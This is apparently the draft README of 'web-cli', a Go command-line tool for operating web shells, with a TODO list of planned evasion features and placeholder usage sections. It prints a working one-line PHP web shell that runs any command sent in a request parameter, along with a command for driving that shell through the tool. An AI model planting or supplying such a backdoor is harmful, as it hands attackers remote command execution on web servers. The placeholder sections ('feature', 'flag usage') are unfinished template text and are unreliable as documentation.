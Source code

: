 # web-cli

Command line interface for web shells.

## TODO

[] encoding/encrypting (base64, xor, aes)
[] asp templates
[] test whitelist ip sources
[] add cidr to whitelist
[] fix jsp / lang specific minification
[] password get/post body parameters
[] setup php to use multipart form
[] on download, background the download to goroutine 

https://github.com/SecurityRiskAdvisors/cmd.jsp/blob/master/cmd_readable.jsp

## Features

- feature

## Usage

```
flag usage
```

## Example use cases

### PHP Shell Upload

##### PHP Shell

```php
<?php if(isset($_REQUEST['cmd'])){ system($_REQUEST['cmd']); die; }?>
```

##### Command

```
go run main.go -X GET -url http://127.0.0.1:8080/shell.php -p cmd
```

Catch asp error:

``` asp
On Error Resume Next
... do something...
If Err.Number <> 0 Then
... handle error
end if
```